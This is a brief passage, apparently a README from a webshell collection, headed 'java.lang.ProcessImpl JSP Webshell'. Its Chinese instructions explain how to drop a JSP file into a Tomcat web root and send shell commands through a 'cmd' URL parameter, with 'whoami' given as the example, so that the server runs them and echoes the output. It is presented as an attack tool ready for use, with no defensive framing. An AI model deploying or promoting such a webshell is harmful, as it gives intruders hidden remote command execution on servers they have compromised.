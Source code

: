 ### java.lang.ProcessImpl JSP Webshell

使用：
```
1.把jsp文件放到能被解析的服务器目录，例：tomcat的webapps/ROOT

2.在浏览器访问7.jsp，并使用参数cmd传入需要远程执行的命令，例：http://127.0.0.1:8080/7.jsp?cmd=whoami

3.服务器将会执行相应的shell命令，最后回显
```